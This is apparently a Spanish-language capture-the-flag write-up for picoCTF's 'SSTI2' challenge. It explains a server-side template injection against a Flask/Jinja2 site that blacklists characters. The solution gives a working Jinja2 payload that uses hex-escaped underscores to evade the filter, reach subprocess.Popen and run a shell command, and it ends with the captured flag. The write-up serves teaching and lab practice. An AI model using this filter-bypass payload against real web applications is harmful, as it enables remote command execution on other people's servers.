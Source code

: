 
## Descripción 

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:58715/)!
### pista

- Server Side Template Injection
- Why is blacklisting characters a bad idea to sanitize input?
## Solución

- Entramos en la pagina.
![[09-SSTI2_IMG1.png]]
- Verificamos si es posible hacerle una inyección.
![[09-SSTI2_IMG2.png]]
- Una vez hecho esto colocamos lo siguiente: {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(356)('cat flag', shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}
![[09-SSTI2_IMG3.png]]
- Vemos que nos da la bandera.
![[09-SSTI2_IMG4.png]]




```
picoCTF{sst1_f1lt3r_byp4ss_ece726e9}
```


## Referencias

- https://youtu.be/CAUPJ3rjdTg?si=Fs4u56KoupijJZ9K